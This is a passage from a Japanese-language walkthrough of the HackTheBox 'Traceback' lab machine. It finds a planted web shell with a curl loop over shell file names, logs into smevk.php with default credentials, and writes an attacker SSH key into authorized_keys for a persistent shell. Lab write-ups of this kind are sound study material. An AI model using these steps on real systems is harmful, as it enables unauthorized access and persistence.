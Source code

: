 ```html
<body>
        <center>
                <h1>This site has been owned</h1>
                <h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
                <h3> - Xh4H - </h3>
                <!--Some of the best web shells that you might need ;)-->
        </center>
</body>
```

`best web shells` がバックドアとして残されているようです。
「`best` なんて人によるだろ」と思い作問者の名前 (`xh4h`) + `web shell` でググると [https://twitter.com/riftwhitehat/status/1237311680276647936](https://twitter.com/riftwhitehat/status/1237311680276647936) が見つかります。
このリポジトリをクローンしてきて雑に `for path in (ls | grep -v README); curl 10.10.10.181/$path; echo $path; end` とかすると `smevk.php` が見つかります。
`smevk.php` のデフォルトユーザ名、パスワードでログイン出来るのでこれで任意コード実行が出来るようになりました。

### user login

`smevk.php` で `user.txt` を入手したいですが、ログイン中のユーザではそれが無いです。

```
$ ls -al /home/$(whoami)
total 44
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 04:03 .
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
-rw------- 1 webadmin webadmin  105 Mar 16 04:03 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Aug 24  2019 .local
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 06:29 .ssh
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16 03:53 note.txt
```

`smevk.php` のコンソールは使いにくいしユーザ名も分かったし、 `ssh` 接続を試みます。

ますクライアントマシンでキーペア生成します。

```
ssh-keygen -f ~/.ssh/traceback
```

`smevk.php` のコンソールからこんな感じで生成した `~/.ssh/traceback.pub` をアップロードします。

```
mkdir -p /home/webadmin/.ssh/ && echo "ssh-rsa xxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxx@xxxxxxxxxxxxxxxx" > /home/webadmin/.ssh/authorized_keys && cat /home/webadmin/.ssh/authorized_keys
```

これで SSH すると無事に安定したシェルを得られます。

```
$ ssh -i ~/.ssh/traceback webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land



Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$
```
